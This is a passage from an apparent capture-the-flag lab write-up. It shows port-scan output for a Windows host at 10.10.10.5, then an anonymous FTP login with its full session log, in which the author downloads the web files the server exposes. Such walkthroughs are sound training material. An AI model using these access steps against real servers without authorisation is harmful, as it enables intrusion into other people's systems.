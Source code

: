 ```bash
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.79 ms 10.10.14.1
2   26.88 ms 10.10.10.5

```

# Exploitation

## Downloading Files from Anonymous Login

```bash 
ftp 10.10.10.5
```

I connected to the machine via FTP using the credentials ```anonymous:anonymous``` and then downloaded the files available.

```bash
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:wither): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> prompt
Interactive mode off.
ftp> mget *
local: iisstart.htm remote: iisstart.htm
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
689 bytes received in 0.02 secs (28.2402 kB/s)
local: test.html remote: test.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
7 bytes received in 0.02 secs (0.3126 kB/s)
local: welcome.png remote: welcome.png
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 820 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
184946 bytes received in 0.20 secs (887.3811 kB/s)
ftp>
```

